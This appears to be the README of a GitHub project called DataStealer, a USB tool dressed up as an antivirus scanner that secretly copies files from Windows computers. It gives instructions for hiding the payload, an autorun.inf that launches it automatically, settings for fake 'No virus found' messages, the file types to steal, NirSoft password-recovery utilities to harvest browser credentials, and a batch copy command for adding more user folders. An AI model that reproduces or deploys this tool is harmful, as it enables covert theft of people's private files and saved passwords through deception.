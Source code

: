 # DataStealer

## Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **run.bat**.

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable messages**
>set msg1=**true / false** [DEFAULT TRUE]
>
>set msg2=**true / false** [DEFAULT TRUE]
>
>set msg1text=Analyzing USB device for searching virus. [WINDOWS TEXT]
>
>set msg2text=No virus found. [WINDOWS TEXT]

**Enable or disable file theft**
>set stealfiles=**true / false** [DEFAULT TRUE]

**Enable or disable Nirsoft software**
>set nirsoft=**true / false** [DEFAULT TRUE]
>
>set soft=**[names of Nirsoft software files]** [DEFAULT EMPTY]

**NirSoft** web site provides a unique collection of **small and useful freeware utilities**, all of them developed by **Nir Sofer**. Go to **[nirsoft.net](www.nirsoft.net)**, download software and put in "data/soft/" folder. Later add names in value with spaces.

***Example:***
>set soft=**SkypeLogView WebBrowserPassView ...**

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

***Like this:***
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.
